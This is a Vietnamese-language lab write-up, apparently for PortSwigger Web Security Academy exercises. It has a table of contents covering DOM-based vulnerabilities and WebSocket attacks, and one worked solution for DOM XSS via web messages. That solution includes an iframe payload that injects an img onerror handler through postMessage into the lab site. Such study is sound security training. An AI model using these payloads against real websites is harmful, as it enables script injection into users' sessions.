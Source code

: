 # Web10
## Table of Content
- [DOM-based vulnerabilities](#dom-based-vulnerabilities)
    - [****DOM XSS using web messages****](#dom-xss-using-web-messages)
    - [****DOM XSS using web messages and JSON.parse****](#dom-xss-using-web-messages-andjsonparse)
    - [****DOM-based open redirection****](#dom-based-open-redirection)
    - [****DOM-based cookie manipulation****](#dom-based-cookie-manipulation)
    - [****Exploiting DOM clobbering to enable XSS****](#exploiting-dom-clobbering-to-enable-xss)
    - [****Clobbering DOM attributes to bypass HTML filters****](#clobbering-dom-attributes-to-bypass-html-filters)
- [WebSocket](#websocket)
    - [****Manipulating WebSocket messages to exploit vulnerabilities****](#manipulating-websocket-messages-to-exploit-vulnerabilities)
    - [**Manipulating the WebSocket handshake to exploit vulnerabilities**](#manipulating-the-websocket-handshake-to-exploit-vulnerabilities)
    - [**Cross-site WebSocket hijacking**](#cross-site-websocket-hijacking)
# DOM-based vulnerabilities

### ****DOM XSS using web messages****

Nhận thấy website lấy data từ `message event` để gán trực tiếp vào object `ads`

![Untitled](wu_media/Untitled.png)

Dùng `iframe` để gửi gửi và trigger message event của website

```html
<iframe src="https://0a61009404234d4dc0a00d360058006b.web-security-academy.net/"
    onload="this.contentWindow.postMessage('<img src=\'\' onerror=\'print()\'>','*')">
</iframe>
```

Copy paste và store vào Exploit server rồi gửi cho victim để hoàn thành lab
